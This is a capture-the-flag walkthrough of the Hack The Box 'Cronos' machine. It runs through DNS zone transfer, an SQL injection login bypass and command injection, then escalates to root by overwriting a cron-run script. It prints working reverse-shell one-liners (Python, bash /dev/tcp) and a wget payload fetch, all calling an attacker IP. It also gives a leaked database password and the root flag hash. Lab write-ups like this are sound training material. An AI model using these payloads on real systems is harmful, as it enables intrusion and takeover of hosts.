**Start 11:51 25-08**

---
```
10.10.10.13
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -Pn -vvvv -T5 -p- 10.10.10.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 10:53 IST

Nmap scan report for 10.10.10.13
Host is up, received user-set (0.025s latency).
Scanned at 2024-08-25 10:53:31 IST for 22s
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added the `host` to my `/etc/hosts` file as `cronos.htb` and started enumerating further.


==Dirsearch==
```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://cronos.htb/ -x 400,403,404             
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Target: http://cronos.htb/

[10:54:55] Starting: 
[10:54:59] 301 -  305B  - /js  ->  http://cronos.htb/js/                    
[10:55:14] 301 -  306B  - /css  ->  http://cronos.htb/css/                  
[10:55:17] 200 -    0B  - /favicon.ico                                      
[10:55:21] 200 -  449B  - /js/                                              
[10:55:31] 200 -   24B  - /robots.txt                                       
[10:55:40] 200 -  914B  - /web.config                                       
  
Task Completed
```

From this I concluded nothing notable, I tried looking for subdomains but haven't found anything at all. 


## 53/TCP - DNS Zone Transfer

Since I've run out of options during my enumeration I decided to look at `port 53`. I decided to look up what my options were and found out about a technique called `DNS Zone Transfer` which is an attack that leverages `port 53` for it.

I found [an article](https://medium.com/@dw3113r/dns-zone-transfer-tutorial-subdomain-discovery-ba4eba534bff) that went into great depth which I used in order to progress:




==nslookup==
We can use a tool called `nslookup` in order to transfer our `DNS Zone`.

```bash
nslookup
server 10.10.10.13
10.10.10.13
```



This gave us a subdomain called `ns1.cronos.htb` which we can now add to our `/etc/hosts` file. 



Nothing interesting, let's look further.


==dig==
Now that the `zone transfer` is complete we can use `dig` to look up all other valuable information:

```bash
dig axfr cronos.htb @10.10.10.13
```



We discovered another subdomain called `admin.cronos.htb` which I would guess is a login page, let's see. Yet again I add the domain to the `/etc/hosts` file:

```bash
10.10.10.13     cronos.htb ns1.cronos.htb admin.cronos.htb
```

I head to the `admin` subdomain:



Indeed I find a login page.

## 80/TCP - HTTP

Apart from the login form, there is no mention of any framework serving the `login process`. I checked the `page source` and found nothing. 
Since I had nothing to work with I chose to list down common log in vulnerabilities. I could try `CSRF` or `Brute Forcing` but went ahead with `SQL Injection`. I tried to inject a bunch of payloads and in the end this one seemed to work:



```
admin'-- -
admin
```

==Foothold==
We are finally rerouted to the website after successfully injecting our payload:



Now we would like to find out what user we're logged in as. I checked the `page source` where I found what script it was executing:



It seems it's just issuing the `traceroute` or `ping -c 1` command with an argument input. Using that logic we can modify the payload to send malicious commands.

I ran a `command injection vulnerability` payload as follows:



We figured out that we're logged in as www-data. Now that we know `command injection` works we can insert other malicious commands:



Now that we know what user is on the machine, we can go to his `/home` directory and `cat` the flag.


==user.txt==




## Privilege Escalation

==Reverse shell==
In order to further escalate privileges I chose to craft up a `python` reverse shell:

```bash
8.8.8.8; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

I started up a listener on my local machine:

```bash
nc -lvnp 1234
```

And I then issued the command and waited for the shell to return:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                    
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.13] 40360
www-data@cronos:/var/www/admin$ 
```

Great! I can now get to escalating privileges.
I proceed to `ls` the current directory and find a `config.php` file which I then `cat`:

```bash
www-data@cronos:/var/www/admin$ cat config.php  
cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

Here I see a set of `admin` credentials for a `MySQL` database. But when I tried to connect using `mysql` it gave me an error:

```bash
┌──(kali㉿kali)-[~]
└─$ mysql -u admin -padmin -h 10.10.10.13       
ERROR 2002 (HY000): Can't connect to server on '10.10.10.13' (115)
```

This makes sense, since in our `nmap` scan we did not see any open ports running `MySQL`.


==crontab==
I realized that since the name of the box is `cronos` then it probably has something to do with [cron jobs](Linux%20Privilege%20Escalation.md#Cron%20Jobs#Writable%20Cron%20Job%20Scripts), so I figured to take a look at `/etc/crontabs`:



Here we specifically see a `php` file running every minute under `root`. If we can get `write` access to it, that means we can modify the file as to give ourselves a `root` shell. Let's check:

```bash
cd /var/www/laravel

ls -l
```

```bash
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
```

It looks like we have write access to the file, thus we can change it to suffice our needs!


==Attempt 1 - FAIL==
I modify the file to this simple line:

```bash
nano artisan
bash -i >& /dev/tcp/10.10.14.6/4444 0>&1 &
```

And start a listener on port `4444`. Within one minute I should get a `root` shell in another terminal.

In theory it should've worked, but of course `nano` is not available on this machine thus we get an error:

```bash
www-data@cronos:/var/www/laravel$ nano artisan
nano artisan
Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue


Error opening terminal: unknown.
```

I tried `cat >` as well but that didn't work either.


==Attempt 2 - Bash==

For the second attempt I used the following line to append the `basj -i` reverse shell script to the `artisan` file.

```bash
echo "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1 &" >> artisan
```

I then used `cat` to check if the file was modified correctly:

```bash
www-data@cronos:/var/www/admin$ echo "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1 &" >> artisan
<min$ echo "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1 &" >> artisan           
www-data@cronos:/var/www/admin$ cat artisan
cat artisan
bash -i >& /dev/tcp/10.10.14.6/4444 0>&1 &
www-data@cronos:/var/www/admin$ 
```

Yet again it did not work.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444                             
listening on [any] 4444 ...
```


==Attempt 3 - Python==
Remembering that the initial connection was also through python, we will now again try to append a `python reverse shell` to the `artisan` file using the following script:

```bash
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" > artisan
```



This yet again showed no results.


==Attempt 4 - wget==
As for this attempt I decided to instead set up a `python server` and `wget` a `php-reverse-shell` to the target. I will first download the `reverse shell` to the `/tmp` folder and then rename the file and move it to the correct directory.

```php
# Snippet of the reverse shell code

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.6';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

I start up a `python server`:

```bash
python3 -m http.server 8000
```

And on the target machine I move to `/tmp`:

```
cd /tmp
wget http://10.10.14.6:8000/php-rs.php
```



Now we can rename the file by using `mv` and moving the file to `/var/www/laravel/artisan`

```bash
mv php-rs.php /var/www/laravel/artisan
```

This attempt finally did work and it gave me a `reverse-shell as root`.




==root.txt==
```bash
cat /root/root.txt
038b52a1ae1b16f78cdf5989dce136d0
```


---

**Finished 19:19 26-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

